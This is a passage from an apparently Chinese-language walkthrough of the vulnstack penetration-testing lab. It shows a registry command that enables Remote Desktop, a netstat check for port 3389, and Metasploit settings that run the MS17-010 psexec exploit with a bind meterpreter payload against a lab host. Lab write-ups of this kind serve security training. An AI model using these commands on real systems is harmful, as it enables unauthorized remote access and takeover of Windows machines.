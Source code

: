 > 开启远程服务的Dos命令: `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`
>
> 查询3389端口是否打开的Dos命令: `netstat -an | find "3389"`

![image-20221017112643655](vulnstack靶场系列一/image-20221017112643655.png)

<br>

接下来攻击域内成员win2003主机, 这次使用`exploit/windows/smb/ms17_010_psexec`模块, 返回目标主机的meterpreter会话(MSF上线)

```
set rhost 192.168.52.141  #设置目标主机

set payload windows/meterpreter/bind_tcp  #设置监听协议

set lhost 192.168.47.134  #设置MSF的服务器IP

set lport 7777 #设置监听端口

run
```

![image-20221017234351309](vulnstack靶场系列一/image-20221017234351309.png)		
